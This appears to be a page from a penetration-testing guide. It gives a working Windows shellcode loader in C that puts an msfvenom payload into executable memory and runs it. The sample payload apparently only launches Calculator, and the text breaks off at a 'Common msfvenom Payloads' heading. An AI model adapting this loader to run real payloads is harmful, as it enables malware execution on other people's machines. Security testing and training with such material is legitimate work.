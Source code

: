 ```
#include <windows.h>
#include <stdio.h>

// Paste your msfvenom output here
unsigned char code[] = \
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

int main() {
    printf("Shellcode length: %d bytes\n", (int)sizeof(code));
    
    // Allocate executable memory
    void *exec_mem = VirtualAlloc(0, sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (exec_mem == NULL) {
        printf("VirtualAlloc failed!\n");
        return -1;
    }
    
    // Copy shellcode to executable memory
    RtlMoveMemory(exec_mem, code, sizeof(code));
    
    // Execute
    printf("Executing shellcode...\n");
    int (*func)() = (int(*)())exec_mem;
    func();
    
    printf("Done!\n");
    return 0;
}
```

**Compile with:** `gcc test_shellcode.c -o test_shellcode.exe`

***

### Metasploit Workflow

#### Common msfvenom Payloads

